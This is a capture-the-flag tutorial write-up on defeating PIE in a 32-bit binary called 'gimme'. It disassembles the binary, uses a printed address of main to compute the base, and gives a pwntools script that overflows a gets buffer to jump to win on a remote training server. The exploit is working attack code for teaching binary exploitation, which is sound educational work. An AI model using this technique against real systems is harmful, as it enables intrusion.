 ```yaml
---
description: Bypassing PIE with a provided address leak.
---
```


# gimme

{% file src="../../.gitbook/assets/gimme.zip" %}

This binary is the first we've covered thus far that enables PIE. We see this in the `checksec` output:

```nasm
$ checksec gimme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The only thing that's disabled is the canary. This means that this code is still susceptible to buffer overflows.

### Static Analysis

We'll start PIE binaries the same way we start the others. While we search through the binary, we are looking for ways that can leak any address in the binary so that we beat PIE.

We'll start with `win()`. `win()` only makes one call to `system`. We can dissect that the string being passed is _cat flag.txt_, but I'll leave it to the reader to verify this.

The `main()` function only makes a call to `read_in` and then returns.

Now, let's discuss the `read_in` function. We can start dissecting each call and the arguments being passed. The first call is to `printf`:

```nasm
   0x565561fe <+21>:	lea    eax,[ebx-0x2dfb]
   0x56556204 <+27>:	push   eax
   0x56556205 <+28>:	lea    eax,[ebx-0x1fc0]
   0x5655620b <+34>:	push   eax
=> 0x5655620c <+35>:	call   0x56556050 <printf@plt>
```

Checking what's at the address pushed addresses:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/s $ebx-0x1fc0
0x56557008:	"Main function is at: %lx\n"
gef➤  x/wx $ebx-0x2dfb
0x565561cd <main>:	0x83e58955
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x5661320c]> ps @ ebx-0x1fc0
Main function is at: %lx

[0x5661320c]> pxw 4 @ ebx-0x2dfb
0x566131cd  0x83e58955                                   U...
```
{% endtab %}
{% endtabs %}

We see that the first call to `printf` is printing the address of `main`. After this, there is a `gets` call to a `0x30` byte buffer.

### The Attack Vector

We have everything we need. Our steps are:

1. Leak the address of `main`
2. Use this to register the base address of the binary
3. Calculate the address of `win`
4. Overwrite the return address with the address of `win`

Pwntools helps out with most of this. By loading in the binary using `ELF()`, the offsets will be automatically registered. Once we find the base address, we can register this inside the `ELF` object and proceed as usual.

We use `libc = elf.libc` to register the `libc` offsets. This is because we will be using the `system` call from `libc`. Then, we can call any function using `elf.sym.<function_name>`. When we find the base address, we store it in `elf.address`.

Let's make this happen. We first establish the binary and process:

```python
elf = context.binary = ELF('./gimme')
p = remote('vunrotc.cole-ellis.com', 7100)
```

From here, we get the leak. This is the same way we received the leak in [location](../02-shellcodes/location.md).

```python
p.recvuntil(b'at: ')
leak = int(p.recvline().strip(), 16)
```

Once we have the leak, we know that the base address is the leak minus the offset of `main`. We can then register this in the `ELF` object.

```python
elf.address = leak - elf.sym.main
```

Now, when we use the `elf.sym.<function_name>` syntax, it automatically adds the base address to the offset. Now, we can build our payload using `elf.sym.win` instead of a hardcoded address.

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload and get the flag:

```python
p.sendline(payload)
p.interactive()
```

As we can see, PIE is bypassed, and the binary is exploited:

```nasm
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vunrotc.cole-ellis.com on port 7100: Done
[*] Switching to interactive mode
flag{bye_bye_ms_american_pie}
/home/ctf/runner.sh: line 5:    12 Segmentation fault      (core dumped) ./gimme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 7100
```
